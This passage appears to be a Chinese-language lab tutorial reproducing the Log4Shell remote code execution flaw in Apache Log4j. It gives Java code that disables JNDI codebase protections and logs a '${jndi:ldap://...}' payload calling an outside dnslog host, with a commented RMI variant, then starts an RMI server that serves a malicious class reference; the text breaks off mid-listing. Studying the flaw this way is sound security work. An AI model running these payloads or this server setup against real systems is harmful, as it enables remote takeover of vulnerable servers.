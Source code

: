 

### 2.新建Log4Test类：

这里模拟站点会记录用户登陆日志，实际上大部分网站确实会做相关功能

```java
package cn.xps.www;

import org.apache.logging.log4j.Logger;
import org.apache.logging.log4j.LogManager;

public class Log4Test {
    private static final Logger logger = LogManager.getLogger(Log4Test.class);

    public static void main(String[] args) {
        // 避免因为Java版本过高而无法触发此漏洞
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase","true");
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase","true");

//        String username = "${jndi:rmi://192.168.43.161:8888/exp}";  // ip需要使用本机局域网ip或网络ip，不能使用127.0.0.1
        String username = "${jndi:ldap://4fduwz.dnslog.cn}";  // ip需要使用本机局域网ip或网络ip，不能使用127.0.0.1
        logger.error(username + "is login on ${java:os}");
    }

}

```



### 3.打开dnslog，发现成功获取ip

![](http://image.geoer.cn/log4_dnslog.png)





### 4.搭建RMI（Remote Method Invoke）服务

因为RMI比较容易搭建环境



#### 4.1 搭建 RMI 服务端，包含需要执行的恶意代码

RMI 服务端搭建，监听本地 8888（自定义）端口，用 Reference 类引用恶意对象

RMIServer.java

```java
package cn.xps.www;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RMIServer {
    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
        Registry registry = LocateRegistry.createRegistry(8888);
        System.out.println("Create RMI registry on port 8888");
        Reference reference = new Reference("cn.xps.www.Log4jRCE", "cn.xps.www.Log4jRCE", null);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
```